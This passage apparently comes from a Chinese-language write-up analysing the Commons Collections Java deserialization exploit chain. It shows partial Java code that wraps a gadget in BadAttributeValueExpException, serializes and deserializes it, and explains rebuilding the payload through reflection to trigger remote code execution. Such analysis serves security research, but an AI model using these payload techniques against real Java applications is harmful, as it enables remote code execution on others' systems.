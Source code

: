 ```java
        BadAttributeValueExpException finaldemo = new BadAttributeValueExpException(rceDemo);
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(finaldemo);
        oos.close();
        System.out.println(bos);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }
}
```

上述代码执行并不会在 readObject 这里 RCE，他 RCE 的原因是因为在实例化的时候的 RCE，在这里触发了传入 TiedMapEntry 的 toString

![](Commons-Collections-反序列化利用链分析/image-20210211163101314.png)

而在下面 readObject 调用 `val = valObj.toString();` 的时候， `valObj` 不为 TiedMapEntry

![](Commons-Collections-反序列化利用链分析/image-20210211162921710.png)

因此根据 valObj 的附值地方，重新构造 payload

![](Commons-Collections-反序列化利用链分析/image-20210211163413684.png)

通过反射构造 BadAttributeValueExpException 的  `val `值
